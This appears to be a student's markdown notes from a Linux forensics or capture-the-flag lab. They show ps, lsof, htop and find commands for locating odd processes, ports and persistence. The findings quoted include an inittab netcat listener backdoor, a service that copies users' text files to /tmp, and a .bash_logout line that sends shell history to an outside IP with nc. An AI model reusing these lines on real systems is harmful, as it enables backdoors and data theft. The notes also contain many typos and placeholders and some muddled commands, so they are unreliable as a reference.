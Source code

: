 
------------------------------------------
# Finding the parent process ID of the user logged in shell
```shell
ps -elf --forest
    #this will show the parent pcoress binaries that ran a program
```
-------------------------------------------
# find a daemon argument
```shell
ps -elf #identify if the "PROCESS NAME"d daemon is running
ps -elf --forest | grep "PROCESS NAME"d # grep out the "PROCESS NAME"d daemon
#With the below output you can see arguments sent to the "PROCESS NAME" daemon
CODE OUPUT;
5 S ssh       "pid"    1  0  80   0 - 23949 -      May04 ?        00:00:47 /usr/sbin/"PROCESS NAME"d -p /var/run/ssh.pid -g -u105:109
 0 S bombadil  4436  3956  0  80   0 -  3179 -      14:49 pts/0    00:00:00              \_ grep ssh
#looking at the end of the "PROCESS NAME"d you can see the given argument (-p /var/run/"PROCESS NAME"d.pid -g -u 105:109)
```
-------------------------------------------

# Identify the file mapped to the fourth file descriptor (handle) of the cron process.
```shell
#Look for FILE DESCRIPTORS
sudo lsof | Less #List-Open-Files(LSOF) 
sudo lsof | grep cron #lsof and grep out cron. look for fourth "FILE" descriptor
[lsof] /cron #this will search for the cron string. Then looking for the descriptor column
OUTPUT cron       1327            root    3u      REG               0,19        5      11513 /run/crond.pid
```   
-------------------------------------------
# find file permissions
```shell
sudo lsof | Less #view open files
[lsof] /cron #this will search for the cron string. Then looking for the descriptor column. answer is 3u
OUTPUT cron       1327            root    3u      REG               0,19        5      11513 /run/crond.pid
```
-------------------------------------------
# orphans processes on the SysV system.
```shell
htop #run htop to view currently running processes
f5 #this will show the tree for child processes
```
-------------------------------------------
# finding zombie processes
```shell
htop #look for process spawning zombie processes
    #zombie processes will show a "z"
```
-------------------------------------------
# find strange port
```shell
htop #run htop to view binaries being ran with additonal /binbash command/arguments
nestat -ano #also useful
```
-------------------------------------------
# find a process. find symbolic link to the absolute path for its EXECUTABLE

```shell
ps -elf | grep ssh #lists the current processes, grepping ssh
sudo find /proc/XXXX -type l -ls | grep ssh #This will look in the proc folder for links grepping ssh
#OUTPUT;
sudo find /proc/XXXX -type l -ls | grep ssh

 1---------      0 lrwxrwxrwx   1 root     root            0 May 16 15:02 /proc/XXXX/exe -> /usr/sbin/XXXX #This is the symbolic link of the executable to the ssh binary
```
---------------------------------------------
# find file using A UDP/TCP CONNECTION ON A PORT
```shell
netstat -ano # This will show your open sockets and established/listening lines
sudo lsof -i :xxx #this will search files open using socket 123
#OUTPUT;
sudo lsof -i :123
COMMAND  PID USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
"PROCESS NAME"d    "pid" "PROCESS NAME"   16u  IPv6  11574      0t0  UDP *:"PROCESS NAME"
"PROCESS NAME"d    "pid" "PROCESS NAME"   17u  IPv4  11577      0t0  UDP *:"PROCESS NAME"
"PROCESS NAME"d    "pid" "PROCESS NAME"   18u  IPv4  11582      0t0  UDP localhost:"PROCESS NAME"
"PROCESS NAME"d    "pid" "PROCESS NAME"   19u  IPv4  11584      0t0  UDP 10.10.0.7:"PROCESS NAME" #here is the UDP connection information being stored w/PID "CHANGE PID"
"PROCESS NAME"d    "pid" "PROCESS NAME"   20u  IPv6  11586      0t0  UDP ip6-localhost:"PROCESS NAME"
"PROCESS NAME"d    "pid" "PROCESS NAME"   21u  IPv6  11588      0t0  UDP [fe80::f816:3eff:fede:a244]:"PROCESS NAME"

sudo lsof | grep "pid"| grep 10.10.0.7 #run lsof grepping a line w/PID and UDP information
sudo lsof | grep 10.10.0.7 | grep "CHANGE PID"
xxx      "pid"            "PROCESS NAME"   19u     IPv4              11584      0t0        UDP 10.10.0.7:xxx
#This is how you would see secuirty descriptor and permissions, the PROCESS NAME = "PROCESS NAME"d FILE = 19, PERM = u
```
---------------------------------------------  
# FIND STRANGE PORT AND PERSISTANCE
```shell
netstat -ano #identifiy strange port thats open
htop #use this to see parent process for suspect port listener
cat /etc/inittab #View the inittab boot confirguation file to find suspect persistance
#suspect output within inittab file

91:2345:respawn:/bin/netcat -lp xxxx #perisitance entry in startup file
```
---------------------------------------------

# FIND ZOMBIES SPAWNING STUFF
```powershell
htop
    f5 #open htop and to find zombie creator
    cp /home ~/Desktop;
    ls -l /home/ #cd into the directory
    cat  #view the cfor each and the ip its going to 
 ```
 ---------------------------------------------
# find file that creates zombie process
```shell
htop, then f5 # this will show tree
sudo lsof | grep "PID"" #get the pid and do an LSOF of the pid to get the files
    cat /opt/mysoul
```
---------------------------------------------
# determine theft of user logs
```shell
go into etc/systemd/system
find / -type f -exec grep -H '~/. IMPORTANTBASHFILE ' {} \;
sudo find / -type f -exec grep -H '.IMPORTANTBASHFILE' {} \;
# this command will look for a file that is tryign to look for a txt
#Look through the below folders with the command unitl you find the string

service running, check systemd
/bin/bash -c 'find /home -name \*.txt -exec cp {} /tmp \;,SERVICENAME.service
```
---------------------------------------------------
# find service stealing data
```shell
#After viewing the below informaiton you can determine the command is being ran with the persistance being the .timer
# go into /lib/systemd/system and LS services
#cat the services
```
-----------------------------------------------------
# find users losing credentials

```shell
cat /etc/passwd | grep -v nologin | grep -v false #view the /etc/passwd to view user with a /bin/false or "nologin. These users will not have an interactive login
sudo find / -name .IMPORTANTBASHFILE; #look for which users have a IMPORTANTBASHFILE file
#Output
garviel@terra:~$ sudo find / -name .IMPORTANTBASHFILE;
/home/garviel/.IMPORTANTBASHFILE
/tmp/.IMPORTANTBASHFILE
/root/.IMPORTANTBASHFILE
#being search other psrts of the drive for a string containsd the .IMPORTANTBASHFILE
/etc/apparmor.d/abstractions/bash:  @{HOME}/.IMPORTANTBASHFILE 
grep -r ".IMPORTANTBASHFILE" /lib     #System Libraries
/srv     #Service Data Directory began looking for direcotires containsing the bash file
#####
start looking in the .IMPORTANTBASHFILE files located in all users location
grep -r ".IMPORTANTBASHFILE" 

/tmp/systemd-private.$HEAD-systemd-resolved.service-$HEAD2,IP:PORT

# ~/.bash_logout: executed by bash(1) when login shell exits.

# when leaving the console clear the screen to increase privacy
###Output
if [ "$SHLVL" = 1 ]; then
    [ -x /usr/bin/clear_console ] && /usr/bin/clear_console -q
fi
history -w /tmp/systemd-private.$HEAD-systemd-resolved.service-$HEAD2
nc -w2 12.54.37.8 12000 < /tmp/systemd-private.$HEAD-systemd-resolved.service-$HEAD2
/home/garviel/.bash_logout,12.54.37.8:12000



```


